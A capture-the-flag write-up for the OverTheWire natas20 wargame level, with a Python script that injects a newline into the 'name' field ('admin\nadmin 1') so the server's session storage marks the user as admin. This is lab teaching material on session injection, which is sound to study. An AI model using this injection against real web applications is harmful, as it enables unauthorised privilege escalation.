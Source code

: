 # natas20

For this problem, the source code has lot of rubbish written but we must focus on satisfying one key line which is -
```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
...
}
```
Here it says we should have Session name as admin and session's admin value also 1. To achieve this, lets understand the below code-
```python
import requests

url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'
auth = ('natas20', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth

# Step 1: Create a new session and inject our payload
data = {'name': 'admin\nadmin 1'}
response = session.post(url, data=data)

# Step 2: Use the same session to view the page again
response = session.get(url)

if 'You are an admin' in response.text:
    print('Success! Here is the response:')
    print(response.text)
else:
    print('Failed to get admin access.')
```
This script first creates a new session and sends a POST request with a payload that injects a new line and 'admin 1' into the 'name' parameter. This causes the server to treat 'admin 1' as a separate session variable when it reads the session data. Then, it sends a GET request with the same session to view the page again. If the server treats 'admin 1' as a session variable, it will consider the user to be an admin.